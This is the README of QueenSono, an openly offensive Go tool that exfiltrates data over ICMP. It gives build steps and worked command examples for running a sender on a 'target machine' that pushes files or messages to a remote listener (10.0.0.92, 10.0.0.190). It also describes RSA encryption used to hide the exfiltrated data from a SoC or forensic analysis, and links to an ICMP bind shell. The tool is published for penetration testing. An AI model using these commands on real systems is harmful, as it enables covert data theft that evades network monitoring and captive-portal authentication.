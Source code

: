 <h1 align="center">QueenSono <i> ICMP Data Exfiltration </i></h1>

<p align="center"><a href="https://github.com/enaqx/awesome-pentest"><img src="https://awesome.re/mentioned-badge.svg"></a></p>
<h4 align="center">A Golang Package for Data Exfiltration with ICMP protocol.</h4>

<p align="center">
  QueenSono tool only relies on the fact that ICMP protocol isn't monitored. It is quite common. It could also been used within a system with basic ICMP inspection (ie. frequency and content length watcher) or to bypass authentication step with captive portal (used by many public Wi-Fi to authenticate users after connecting to the Wi-Fi e.g Airport Wi-Fi). Try to imitate <a href="https://github.com/ytisf/PyExfil">PyExfil</a> (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be useful)
  <br><br>
  <strong>
    <a href="https://github.com/ariary/QueenSono#install">Install it</a>
    ·
    <a href="https://github.com/ariary/QueenSono#usage">Use it</a>
    ·
    <a href="https://github.com/ariary/QueenSono#notes">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
    ·
    <a href="https://github.com/ariary/QueenSono/tree/main/hack">🎁</a>
  </strong>
</p>

## Install
 *\> Install the binary from source*
 
Clone the repo and download the dependencies locally:
```    
git clone https://github.com/ariary/QueenSono.git
make before.build
```

 To build the ICMP packet sender `qssender` :

     build.queensono-sender
    

 To build the ICMP packet receiver `qsreceiver` :

     build.queensono-receiver

## Usage

`qssender` is the binary which will send ICMP packet  to the listener , so it is the binary you have to transfer on your target machine. 

`qsreceiver` is the listener on your local machine (or wherever you could receive icmp packet)

All commands and flags of the binaries could be found using `--help`

### Example 1: Send with "ACK" 🔙
*\> In this example we want to send a big file and look after echo reply to ackowledge the reception of the packets (ACK).*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 -p -f received_bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-l 0.0.0.0</code>listen on all interfaces for ICMP packet
    </li>
    <li>
      <code>-f received_bible.txt</code> save received data in a file
    </li>
    <li><code>-p</code> show a progress bar of received data </li>

</details>


On target machine:

    $ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt #download a huge file (for the example)
    $ qssender send file -d 2 -l 0.0.0.0 -r 10.0.0.92 -s 50000 bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>send file</code> for sending file (<code>bible.txt</code> is the file in question)
    </li>
    <li>
      <code>-d 2</code> send a packet each 2 seconds
    </li>
    <li><code>-l 0.0.0.0</code> the listening address for <i>echo reply</i> </li>
    <li><code>-r 10.0.0.92</code> the address of my remote machine with <code>qsreceiver</code> listening</li>
    <li><code>-s 50000</code> the data size I want to send in each packet</li>
</details>


### Example 2: Send without "ACK" 🙈
*\> In this example we want to send a message without waiting for echo reply (it could be useful in  case the target firewall filters incoming icmp packet)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-trunc.gif?raw=true)


On local machine:

    $ qsreceiver receive truncated 1 -l 0.0.0.0
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>receive truncated 1</code> does not wait indefinitely if we don't received all the packets. (<code>1</code> is the delay used with <code>qssender</code>)</li>
</details>


On target machine:

    $ qssender send "thisisatest i want to send a string w/o waiting for the echo reply" -d 1 -l 0.0.0.0 -r 10.0.0.190 -s 1 -N
<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-N</code> noreply option (don't wait for <i>echo reply</i>)
    </li>
</details>


### Example 3: Send encrypted data 🔒
*\> In this example we want to send an encrypted message. As the command line could be spied on we use asymmetric encryption (if the key leaks, it isn't an issue so)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-encryption.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 --encrypt 
    <OUTPUT PUBLIC KEY>
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>--encrypt </code> use encryption exchange. It will generate public/private key. The public one will be used by <code>qssender</code> to encrypt data, the private one is used to decrypt it with <code>receiver</code>
</details>


On target machine:
```
$ export MSG="<your message>"
$ export KEY="<public_key_from_qsreceiver_output>"
$ qssender send $MSG -d 1 -l 127.0.0.1 -r 10.0.0.190 -s 5 --key $KEY
```

<details>
  <summary>Explanation</summary>
    <li>
    <code>--key </code> provide key for data encryption. Use the one provided by the <code>qsreceiver</code> command
    </li>
</details>

#### About encryption
RSA encrytion is used to keep data exchanged confidential. It could be useful for example to avoid a SoC to see what data is exchanged (or forensic) w/ basic analysis or simply for privacy.

But it comes with a cost. The choice of asymetric encryption is motivated by the fact that the encryption key is entered on the command line (so it could be retieved easily). Hence, we encrypt data with public key. Like this if someone retrieve the encryption key it will not be possible to decrypt the message. But the public key is smaller than the private one, so it ***encrypt smaller messages***. Also, ***it is computationally expensive***.

Another point, as we want to limit data size/ping requests (to avoid detection, bug, etc), **use encryption only if needed** ***as the message output-size will (should) always equal the size of the Modulus*** (part of the key) which is big.

##### Enhancement
Currently, the whole message is encrypted and then chunked to be sent. On the other side we wait for all the packet (chunks), reconstruct our message and then decrypt it.
But it works ⇔ we have received ALL the chunks, otherwise the decryption will fail.


=> We  could encrypt each chunk accordingly with the `-s` parameter, like this we could decrypt them separately.


### Bonus

See [hack](https://github.com/ariary/QueenSono/tree/main/hack) section for fun things with `QueenSono` (eg. a bind shell using ICMP)

### Notes
- only work on Linux  (due to the use of golang net icmp package)
- need `cap_net_raw capabilities`
